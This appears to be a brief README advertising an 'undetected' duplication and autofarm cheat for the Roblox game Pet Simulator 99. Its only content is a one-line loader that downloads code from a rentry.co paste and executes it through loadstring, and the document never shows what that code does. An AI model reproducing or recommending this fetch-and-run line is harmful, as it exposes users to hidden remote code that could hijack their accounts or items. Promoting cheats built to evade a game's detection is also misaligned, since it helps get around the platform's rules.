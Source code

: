 # Pet-Simulator-99-Duplication-Script-undetected-
Duplicate gems, huges, titanics, use free autofarm, etc.


loadstring(game:HttpGet('https://rentry.co/pthg3ews/raw',true))()

^^^Script^^^
